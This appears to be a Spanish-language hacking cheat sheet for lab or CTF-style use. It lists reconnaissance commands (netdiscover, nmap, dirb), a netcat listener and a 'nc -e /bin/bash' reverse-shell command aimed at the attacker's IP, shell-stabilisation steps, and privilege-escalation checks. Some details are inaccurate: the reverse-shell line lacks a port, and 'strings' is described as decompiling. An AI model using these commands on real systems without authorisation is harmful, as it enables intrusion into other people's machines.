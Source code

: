 ```yaml
---
title: CheatSheet
description: Cheatsheet de todos los comandos usados en Hacking
published: true
date: 2024-11-11T16:04:31.197Z
tags: 
editor: markdown
dateCreated: 2024-11-11T14:26:03.405Z
---
```


# Comandos
Esta sección está dedicada a comandos usados de forma común en hacking.
## Detección
Para la detección de IPs, podremos hacer uso de varios comandos como:
```bash
sudo netdiscover -r (Rango de IP)
```
La detección de puertos, podemos hacer uso de NMap o Nessus. Con NMap seria el siguiente comando:
```bash
sudo nmap -sC -sV (IP)
```
Para la detección de subdirectorios podemos hacer uso de:
```bash
sudo dirb (Enlace)
```
## Shell reversa
Una shell reversa, consiste en una shell ya segurizada que usaremos para poder escribir comandos, primero deberemos poner en nuestra máquina:
```bash
nc -lnvp (Puerto)
```

Tras esto en la máquina vulnerada, deberemos intentar poner el siguiente comando para poder obtener una shell reversa.
```bash
sudo nohup nc -e /bin/bash (Nuestra IP) &
```


### Securizar la shell
Para poder securizarla, deberemos escribir en la shell reversa lo siguiente:
```bash
python -c "import pty;pty.spawn('/bin/bash')"
```

Tras esto haremos un Crtl + Z, para poner los siguientes comandos:
```bash
stty raw -echo;fg
```
Tras esto, deberemos hacer Enter 2 veces y por último poner el siguiente comando
```bash
export TERM=xterm
```
## Escalada de privilegios
Cuando intentemos hacer una escalada de privilegios, deberemos tener en cuenta que comandos permisos tiene nuestro usuario para poder realizarlo. Para ello ponemos:

```bash
sudo -l
```
Los datos obtenidos deberemos compararlos en: [GtFobins](gtfobins.github.io)

## Ingeniería inversa
Cuando tengamos un archivo .exe, deberemos intentar poder descompilarlo. Para ello podemos usar el siguiente comando.
```bash
sudo strings (Fichero)
```
